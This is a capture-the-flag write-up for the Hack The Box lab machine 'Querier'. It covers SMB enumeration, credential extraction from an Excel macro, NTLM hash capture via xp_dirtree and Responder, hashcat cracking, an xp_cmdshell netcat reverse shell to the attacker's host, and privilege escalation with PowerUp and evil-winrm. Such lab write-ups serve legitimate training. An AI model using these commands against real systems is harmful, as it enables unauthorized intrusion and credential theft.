# [Querier](https://app.hackthebox.com/machines/querier)

```bash
nmap -p- --min-rate 10000  10.10.10.125 -Pn  
```



After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p135,139,445,1433,5985,47001 10.10.10.125 -Pn 
```




I just enumerate SMB shares via `smbclient` command.

```bash
smbclient -N -L //10.10.10.125
```



I connected into 'Reports' directory of this SMB share via `smbclient` commnad.

```bash
smbclient -N //10.10.10.125/Reports
```



To read this file, I use `olevba` command.

```bash
olevba FILE.xlsm
```




From here, I got cleartext database credentials.

reporting: PcwTWTHRwryjc$c6


Let's connect into MSSQL via this credentials. I use `impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
```

I check my current user's accessed databases and tables, but I can't find any sensitive credentials.

That's why I need to switch into another user.

For this, we need to relay attack.

1.First, we need to make request.
```bash
xp_dirtree '\\10.10.14.3\a'
```



2.Then catch NTLM credentials via `responder` tool.

```bash
responder -I tun0
```




Let's get NTLM hash crack this via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```




Hola, I found a password 'corporate568'.

Now, we have valid credentials.

mssql-svc: corporate568


Let's login into MSSQL via this credentials.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py mssql-svc:'corporate568'@10.10.10.125 -windows-auth
```

I can execute commands by typing firstly 'enable_xp_cmdshell', then I write a command in front of 'xp_cmdshell' and it works.

xp_cmdshell whoami



As we can execute commands, let's do reverse shell.

1.First, we need to open SMB share where we have `nc.exe`.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share .
```


2.Then, we need to add our malicious reverse shell SQL query into MSSQL Shell as below.
```sql
xp_cmdshell \\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 1337
```


I got reverse shell from port (1337).




Note: If you have such error as below, please turn on SMB2 support feature by adding `-smb2support`




user.txt




Now, I upload 'PowerUp.ps1' file into my target machine.
```bash
xcopy \\10.10.14.3\share\PowerUp.ps1 .
```






Let's execute this script.

```bash
. .\PowerUp.ps1
Invoke-AllChecks
```




I found cleartext credentials from here.

Administrator: MyUnclesAreMarioAndLuigi!!1!


Let's connect into machine via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -u administrator -p 'MyUnclesAreMarioAndLuigi!!1!' -i 10.10.10.125
```


root.txt

